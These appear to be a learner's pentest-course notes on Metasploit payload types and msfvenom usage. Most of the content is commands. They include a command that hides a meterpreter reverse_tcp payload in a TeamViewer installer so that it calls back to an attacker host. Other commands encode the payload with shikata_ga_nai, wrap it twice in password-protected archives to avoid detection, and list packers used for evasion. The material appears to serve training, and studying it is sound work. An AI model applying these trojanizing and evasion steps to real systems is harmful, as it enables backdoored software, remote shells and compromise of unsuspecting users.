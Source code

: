 
#### Singles
Exploit + entire shellcode
- Large
- Stable

#### Stagers
Waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host.
- Small
- Reliable

#### Stages
Downloaded by stager's modules


```shell-session
show payloads
```

```shell-session
grep meterpreter show payloads
```

```shell-session
grep meterpreter grep reverse_tcp show payloads
```

```shell-session
set payload 15
```

#### Meterpreter

```shell-session
help
```

Windows Payloads
![[Pasted image 20250302153634.png]]

Embed payloads into any executable file (backdoored executable):
```shell-session
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```
- -k = pull payload in a separate thread from the main application

#### Archiving (twice) the Payload
```shell-session
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
```
```shell-session
wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
```
```shell-session
tar -xzvf rarlinux-x64-612.tar.gz && cd rar
```
```shell-session
rar a ~/test.rar -p ~/test.js
```
```shell-session
mv test.rar test
```
```shell-session
rar a test2.rar -p test
```
```shell-session
mv test2.rar test2
```


#### Packing
- UPX packer	
- The Enigma Protector	
- MPRESS
- Alternate EXE Packer	
- ExeStealth	
- Morphine
- MEW	
- Themida	